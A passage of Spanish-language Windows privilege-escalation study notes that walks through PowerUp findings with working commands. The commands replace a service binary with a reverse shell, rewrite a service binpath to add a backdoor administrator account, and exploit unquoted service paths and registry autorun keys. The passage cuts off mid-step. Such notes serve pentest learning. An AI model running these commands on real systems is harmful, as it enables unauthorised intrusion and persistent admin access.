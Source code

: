 	cp C:\Users\Public\revshell.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
	```
- Y tras ponernos en escucha e iniciar el serivico (no nos deja `sc.exe stop securityservice`)
	```powershell
	sc.exe start securityservice
	```
#### Servicios con binpath modificable - `Modifiable Services`
- En `Invoke-AllChecks` aparece `Check` como:
	```
	Check:         Modifiable Services
	```
- Aparecerán al escribir
	```powershell
	Get-ModifiableService
	...
	ServiceName   : WindscribeService
	Path          : "C:\Program Files (x86)\Windscribe\WindscribeService.exe"
	```
- Podemos explotarlos del siguiente modo
	```powershell
	sc.exe config WindscribeService binpath="cmd /c net user an0nio Password123! /add & net localgroup Administrators an0nio /add"
	sc.exe stop WindscribeService
	sc.exe start WindscribeService
	```
#### Ruta sin comillas - `Unquoted Service Paths`
- En `Invoke-AllChecks` aparece `Check` como:
	```
	Check:         Unquoted Service Paths
	```
- Aparecerán al escribir
	```powershell
	Get-UnquotedService
	...
	ServiceName    : SystemExplorerHelpService
	Path           : C:\Program Files (x86)\System Explorer\service\SystemExplorerService64.exe
	```
- Si tenemos permisos de escritura en `C:\` ó en `C:\Program Files (x86)`, podremos explotarlo creando un binario como sigue
	```powershell
	C:\Program.exe\
	C:\Program Files (x86)\System.exe
	```
- Después deberíamos reiniciar el servicio 
#### Registros mal configurados en registro -  `Modifiable Registry Autorun`
 - En `Invoke-AllChecks` aparece `Check` como:
	```powershell
	Check:         Modifiable Registry Autorun
	```
- Aparecerán al escribir
	```powershell
	Get-ModifiableRegistryAutoRun
	# mostramos solo la key, que es lo que se explota
	Get-ModifiableRegistryAutoRun | select key
	HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run\SystemExplorerAutoStart
	```
- Lo explotamos del siguiente modo (`revshell.exe` con msfvenom): 
	```powershell